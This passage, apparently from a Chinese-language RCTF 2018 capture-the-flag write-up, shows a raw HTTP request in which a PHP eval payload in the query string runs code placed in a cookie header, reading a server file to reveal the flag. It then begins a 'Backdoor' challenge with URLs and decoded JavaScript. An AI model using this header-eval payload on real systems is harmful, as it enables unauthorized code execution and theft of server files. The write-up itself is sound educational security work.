 getflag:

```
GET /71aabdeb3d708872c6e00e066ae48b2669834df7/index.php?cmd=eval(end(getallheaders())); HTTP/1.1
Host: .sandbox.r-cursive.ml:1337
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cookie: echo ini_get('open_basedir');var_dump(file_get_contents("/var/www/sandbox/init.php"));
```

```
HTTP/1.1 200 OK
Date: Tue, 22 May 2018 06:51:10 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/5.6.36
Vary: Accept-Encoding
Content-Length: 186
Connection: close
Content-Type: text/html; charset=UTF-8

/var/www/sandbox/:/tmp/string(148) "<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
"
```

## Backdoor

![1526992722365](/images/rctf/1526992722365.png)

根据contrab.sh,我们可以得到两个链接：

> http://backdoor.2018.teamrois.cn/post.php?action=upload
>
> http://backdoor.2018.teamrois.cn/post.php?action=debugging&count=$debuggers

打开首页，查看源码，得到aaencode之后的js代码:

解密网址:`https://tool.zcmzcm.org/aadecode`

```
document.loginform.onsubmit = function (e) { 
	e.preventDefault()
	document.getElementById('wp-submit').disabled = 'disabled'
	setTimeout(function () {
		document.getElementById('wp-submit').removeAttribute('disabled')
		alert('Login failed')
		"What? Need hint?"
		"index.php is a hint!"
	}, 3000)
}
```
